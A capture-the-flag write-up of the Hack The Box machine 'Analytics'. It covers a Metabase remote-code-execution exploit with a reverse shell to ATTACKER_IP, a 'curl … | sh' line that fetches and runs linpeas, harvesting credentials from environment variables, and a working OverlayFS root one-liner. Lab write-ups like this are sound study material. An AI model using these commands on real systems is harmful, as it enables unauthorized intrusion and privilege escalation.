 # Analytics

A writeup for the machine [Analytics](https://app.hackthebox.com/machines/Analytics) on Hack The Box.

<Image src={require("./banner.png").default} width="700" />

## Footprinting

### Nmap scans

Firstly, we can start with a nmap scan.

We find two open ports with one web servers publicly accessible.

```bash
nmap -sS <HOST>
```

```
22 -> SSH
80 -> HTTP
```

<Image src={require("./nmap.png").default} />

### Web server

To access the web server, we need to update the `/etc/hosts` file with the machine IP.

```
echo "10.10.11.233 analytics.htb" >> /etc/hosts
```

The web server is running a simple website with an home page and a login page.

<Image src={require("./homepage.png").default} />

If we try to open the login page we are redirected to a new subdomain `data.analytics.htb`.

After updating again the hosts file, we can access the login page.

The login page is running a `Metabase` instance, an open-source web analytics platform.

<Image src={require("./login.png").default} />

## User flag

### Exploiting Metabase

If we look to the source code of the login page, we can find some interesting information of the service.

One of the details contains the version of the `Metabase` instance.

<Image src={require("./metabase-version.png").default} />

By searching online for this specifc version, we can find a RCE vulnerability and an Metasploit exploit for it.

[https://nvd.nist.gov/vuln/detail/CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

[https://packetstormsecurity.com/files/174091/Metabase-Remote-Code-Execution.html](https://packetstormsecurity.com/files/174091/Metabase-Remote-Code-Execution.html)

```bash
msfconsole
use exploit/multi/http/metabase_unauth_rce
set RHOSTS data.analytics.htb
set RPORT 80
set LHOST ATTACKER_IP
run
```

After running the exploit, we can get a reverse shell as the `metabase` user.

```bash
whoami
```

<Image src={require("./reverse-shell.png").default} />

### From metabase to user

Once inside the machine, we discover that we are in a docker container.

We can still try to find some interesting information to escalate our privileges.

One possible way is to run `linpeas`.

```bash
# attacker
python3 -m http.server 80
# target
curl http://ATTACKER_IP/linpeas.sh | sh
```

Inside the environment variables, we can find a username and a password for the `metalytics` user.

```bash
echo $META_USER
echo $META_PASS
```

<Image src={require("./env-vars.png").default} />

### Accessing with SSH

We can use the credentials that we found in the previous step to login via SSH.

```bash
ssh metalytics@TARGET_IP
```

After logging in, we can find the user flag inside the home directory.

```bash
cat user.txt
```

<Image src={require("./user-flag.png").default} />

## Root flag

### Enumerating the environment

Now that we are inside the system, we can start to look for a way to escalate our privileges.

Nothing interesting is found in the home directory or in the user's history.

We can again use `linpeas` to find additional information.

As before, we can serve the script on our local machine and download it on the target.

Even in this case, nothing interesting is found.

### Exploiting CVE-2023-2640

Because we didn't find anything useful, we can start looking for possible vulnerabilities in the system.

To do so, we can start by checking the version of the operating system.

```bash
cat /etc/os-release
```

<Image src={require("./ubuntu-version.png").default} />

By searching online we can see that this version is vulnerable to the OverlayFS vulnerability.

[https://nvd.nist.gov/vuln/detail/CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640)

A simple exploit can allow us to run commands as root.

It is enough to execute the following command to get the root flag.

[https://github.com/luanoliveira350/GameOverlayFS/blob/main/gameoverlay.sh](https://github.com/luanoliveira350/GameOverlayFS/blob/main/gameoverlay.sh)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("ls /root")'
```

Be careful, it should be run as a single command or run it through a script.

<Image src={require("./root.png").default} />

